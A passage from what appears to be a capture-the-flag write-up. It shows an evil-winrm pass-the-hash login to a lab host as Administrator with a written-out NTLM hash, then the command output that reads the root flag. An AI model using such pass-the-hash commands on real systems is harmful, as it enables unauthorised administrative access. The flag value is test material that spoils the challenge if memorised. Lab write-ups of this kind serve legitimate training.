 ```
```

Again a PtH using [evil-winrm][evil-winrm] with Administrator account.

```
$ evil-winrm -u Administrator -H 184fb5e5178480be64824d4cd53b99ee -i 10.10.10.192

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> gc ../Desktop/root.txt
511fa0e63117cc3e746a523d0b5fd0b8
```

[nmap]:https://nmap.org/
[JtR]:https://www.openwall.com/john/
[evil-winrm]:https://github.com/Hackplayers/evil-winrm
